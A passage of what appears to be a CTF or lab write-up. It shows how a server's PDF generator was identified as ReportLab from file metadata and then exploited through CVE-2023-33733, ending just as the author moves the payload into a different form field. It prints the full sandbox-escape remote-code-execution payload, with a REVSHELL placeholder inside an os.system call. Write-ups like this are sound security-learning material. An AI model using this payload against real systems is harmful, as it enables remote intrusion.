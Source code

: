 I generated a PDF using **Leave Request** and examined its metadata to gather information on the technology used:

![pdf-metadata](attachments/pdf-metadata.png)

It turned out the server was using ReportLab to generate PDFs. Although the exact version wasn't listed, I knew it was worth checking for known vulnerabilities.

### Exploiting CVE-2023-33733

I quickly discovered that a recent version of ReportLab was vulnerable to a critical **Remote Code Execution (RCE)** vulnerability ([CVE-2023-33733](https://nvd.nist.gov/vuln/detail/CVE-2023-33733)) due to insufficient input validation.

- https://security.snyk.io/vuln/SNYK-PYTHON-REPORTLAB-5664897
- https://github.com/c53elyas/CVE-2023-33733

The malicious payload for exploiting this vulnerability is as follows:

```html
<para><font color="[ [ getattr(pow,Word('__globals__'))['os'].system('REVSHELL') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'"></font></para>
```

However, the **Justification** field had a character limit, so I tested other fields and successfully injected the payload into the **From** field:
